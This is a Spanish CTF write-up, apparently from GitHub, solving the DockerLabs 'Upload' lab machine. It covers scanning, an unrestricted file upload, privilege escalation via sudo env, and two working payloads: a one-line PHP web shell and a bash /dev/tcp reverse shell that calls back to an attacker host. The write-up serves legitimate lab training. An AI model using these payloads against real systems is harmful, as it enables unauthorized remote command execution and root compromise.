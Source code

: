 ![image](https://github.com/Crisstianpdx/CTFs-WriteUps/blob/897599be5b5fc8376144035120706ace760edd10/DockerLabs/Upload/imgs/upload-banner.png)

[Maquina](https://mega.nz/file/pOdwgYbB#8lTyf-mWFNq7xvKWObKUV9gkrZj3nzhuHVlGQmnZ6BQ)   \   [Dockerlabs](https://dockerlabs.es/)


## Reconocimiento

Comenzamos con un escaneo de `nmap` a todos los puertos de la maquina vulnerable en busca de puertos abiertos.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.2 -oG allPorts
________________________________________________________________

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Solo hay un puerto abierto, el **puerto 80**. Este corresponde a un servicio http(Hyper Text Transfer Protocol) o servicio web en pocas palabras.

Ahora hacemos un segundo escaneo con `nmap` sobre este puerto abierto con un conjunto de scripts basicos de reconocimientos que trae por defecto nmap con el parametro `-sC` he incluimos el parametro `-sV` para que nos detecte la version del servicio que corre en dicho puerto. Estos dos se pueden escribir como `-sCV`.

```shell
nmap -p80 -sCV 172.17.0.2 -oN targeted
______________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
```
En los resultados del escaneo podemos ver que dentro del **puerto 80** se aloja una pagina web que, tal parece, nos deja subir archivos al servidor.

Visualizamos la pagina web.

![image](https://github.com/Crisstianpdx/CTFs-WriteUps/blob/a656f31901b30f06faa0c4822c72b2de72a979f9/DockerLabs/Upload/imgs/upload-img1.png)

Al tener la oportunidad de subir archivos a una web, en lo primero que pensariamos es en subir un archivo *php* con el que podamos ejecutar comandos dentro de la maquina atraves de un paramentro definido en el script. Esto sera asi en caso de que la maquina no aplique ningun tipo de sanitizacion sobre los tipos de archivos que se pueden subir.

Creamos un archivo *php* con un paramentro `cmd` al cual le pasaremos los comandos que deceemos ejecutar.
```shell
echo "<?php system(\$_GET['cmd']); ?>" >> test.php
```

El archivo se logra subir sin ningun problema por lo que, no se esta aplicando ningun tipo de sanitizacion en el servidor.

Ahora debemos encontrar la ruta en donde ha sido guardado nuestro archivo. Para ello, haremos uso de `wfuzz` para encontrar esa ruta en donde fue guardado nuestro archivo. Con el parametro `--hc=404` excluimos todos las respuestas HTTP con codigo 404 (Not Found) que pueda regresar el servidor.

```shell
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt http://172.17.0.2/FUZZ
________________________________________________________________________________________________________________
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/FUZZ
Total requests: 1273832

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        53 L     104 W      1361 Ch     "# directory-list-2.3-big.txt"
...
000000164:   301        9 L      28 W       310 Ch      "uploads"
```

`Wfuzz` nos ha econtrado un directorio llamado **"uploads"**.

Si revisamos ese directorio podremos ver que ahi se encuntra alojado nuestro archivo *test.php*.

![image](https://github.com/Crisstianpdx/CTFs-WriteUps/blob/a656f31901b30f06faa0c4822c72b2de72a979f9/DockerLabs/Upload/imgs/upload-img2.png)

Nos dirijimos directamente atraves de la URL a nuestro archivo php y hacemos un llamado al parametro que predefinimos anteriormente para que ejecute el comando `id` en la maquina.

```
http://172.17.0.2/uploads/test.php?cmd=id
```

![image](https://github.com/x4nderht/CTFs/blob/effd1af3fa859eb27c3a2ecb55b427217151c9f0/DockerLabs/Upload/imgs/upload-img3.png)
Al hacer esto podremos observar la respuesta del servidor ante el comando `id` por lo que el archivo funciona y el servidor interpreta de forma correcta las peticiones hechas atraves del archivo php. Sabiendo esto, podemos intentar entablar una revershell del servidor a nuestra maquina atacante. 

## Explotacion

Nos colocamos en escucha con `netcat` por el **puerto 443** en espera de la conexion.
```shell
nc -nlvp 443
```
Y atraves del parametro `cmd` de nuestro archivo le hacemos la peticion al servidor para que establezca una conexion con nuestra maquina atacante. Cambiamos el caracter `&` por su expresion en URL(`%26`), para que pueda ser interpretado por el servidor:
```shell
http://172.17.0.2/uploads/test.php?cmd=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```
![image](https://github.com/Crisstianpdx/CTFs-WriteUps/blob/a656f31901b30f06faa0c4822c72b2de72a979f9/DockerLabs/Upload/imgs/upload-img4.png)
Y hemos logrado ganar acceso como el usuario *www-data*.

## Escalada de privilegios

Ejecutamos un `sudo -l` para ver si existe algun comando que podamos ejecutar con altos privilegios.

```shell
sudo -l
________________________
...
User www-data may run the following commands on 41e845320485:
    (root) NOPASSWD: /usr/bin/env
```
Vemos que el usuario *www-data* puede ejecutar `/usr/bin/env` como *root* sin necesidad de proporcionar alguna credencial. Por ende, ejecutamos una **bash** atraves del comando `env` como *root*.
```shell
sudo env /bin/bash
```

Y comprobamos con el comando `whoami` o `id` que ya somos usuario *root*.

![image](https://github.com/Crisstianpdx/CTFs-WriteUps/blob/a656f31901b30f06faa0c4822c72b2de72a979f9/DockerLabs/Upload/imgs/upload-img5.png)

##

De esta forma hemos resuelto la maquina Upload de DockerLabs y tambien he subido mi primer writeup.






